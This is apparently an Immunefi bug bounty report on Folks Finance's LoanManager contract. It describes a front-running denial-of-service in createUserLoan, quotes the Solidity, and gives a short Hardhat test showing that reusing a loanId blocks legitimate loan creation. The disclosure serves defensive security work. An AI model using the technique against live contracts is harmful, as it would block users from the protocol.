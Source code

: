 
# Denial of Service (DoS) vulnerability in ```UserLoan``` creation due to front-running attack

Submitted on Sun Aug 04 2024 09:38:21 GMT-0400 (Atlantic Standard Time) by @zarkk for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #34028

Report type: Smart Contract

Report severity: Medium

Target: https://testnet.snowtrace.io/address/0x2cAa1315bd676FbecABFC3195000c642f503f1C9

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
The current design of the ```createUserLoan``` function in the ```LoanManager``` contract allows attackers to exploit it, enabling a Denial of Service (DoS) attack that blocks legitimate ```UserLoan``` creations by front-running them creating a loan with the same ```loanId```.

## Vulnerability Details
To use Folks Finance and, actually, borrow money, users must create an ```UserLoan``` by triggering the ```createUserLoan``` function in the ```LoanManager``` contract, providing a unique ```loanId```. The function checks whether the ```loanId``` has already been used for the creation of another ```UserLoan``` and that ```UserLoan``` is active. If it is active, the creation process is halted, and the transaction is reverted. This allows an attacker to front-run legitimate account creation requests by submitting their own transaction with the same ```loanId```, effectively blocking others from creating ```UserLoan``` and accessing the platform. We can the implementation of ```createUserLoan``` here :
```solidity
function createUserLoan(
        bytes32 loanId,
        bytes32 accountId,
        uint16 loanTypeId,
        bytes32 loanName
    ) external override onlyRole(HUB_ROLE) nonReentrant {
        // check loan types exists, is not deprecated and no existing user loan for same loan id
        if (!isLoanTypeCreated(loanTypeId)) revert LoanTypeUnknown(loanTypeId);
        if (isLoanTypeDeprecated(loanTypeId)) revert LoanTypeDeprecated(loanTypeId);
@>        if (isUserLoanActive(loanId)) revert UserLoanAlreadyCreated(loanId);

        // create loan
        UserLoan storage userLoan = _userLoans[loanId];
        userLoan.isActive = true;
        userLoan.accountId = accountId;
        userLoan.loanTypeId = loanTypeId;

        emit CreateUserLoan(loanId, accountId, loanTypeId, loanName);
    }
```
Furthermore, as it can be easily understood, all calls on ```createUserLoanAndDeposit``` will also revert.

## Impact Details
This vulnerability allows an attacker to prevent any new user loans from being created by front-running legitimate requests. The attack breaks the main  functionality of Folks Finance and can be exploited from the very start of the protocol for ever, making the protocol unusable. The ease with which this attack can be executed, combined with its potential to fully block loan creation, makes this a critical issue.

## References
https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/fb92deccd27359ea4f0cf0bc41394c86448c7abb/contracts/hub/LoanManager.sol#L40-L58

        
## Proof of concept
## Proof of Concept
To understand better this vulnerability, add the following test under the ```"Create User Loan"``` section in ```LoanManager.test.ts```:
```javascript
it.only("Should fail to create user loan when malicious has front runned the creation with same loanId", async () => {
      const { hub, loanManager, loanTypeId } = await loadFixture(addPoolToLoanTypeFixture);
      
      const loanId = getRandomBytes(BYTES32_LENGTH);
      const loanName = getRandomBytes(BYTES32_LENGTH);
      // Malicious attacker front running the creation of the creation of the loan, creating a loan with the same loanId.
      const createUserLoanFrontrun = await loanManager.connect(hub).createUserLoan(loanId, getAccountIdBytes("ACCOUNT_ID_MALICIOUS"), loanTypeId, loanName);

      expect(await loanManager.isUserLoanActive(loanId)).to.be.true;

      // The legit transaction will revert, and this can happen for EVERY creation of UserLoan of EVERY user.
      const createUserLoanLegit = loanManager.connect(hub).createUserLoan(loanId, getAccountIdBytes("ACCOUNT_ID_LEGIT"), loanTypeId, loanName);
      await expect(createUserLoanLegit).to.be.revertedWithCustomError(loanManager, "UserLoanAlreadyCreated").withArgs(loanId);
    });
```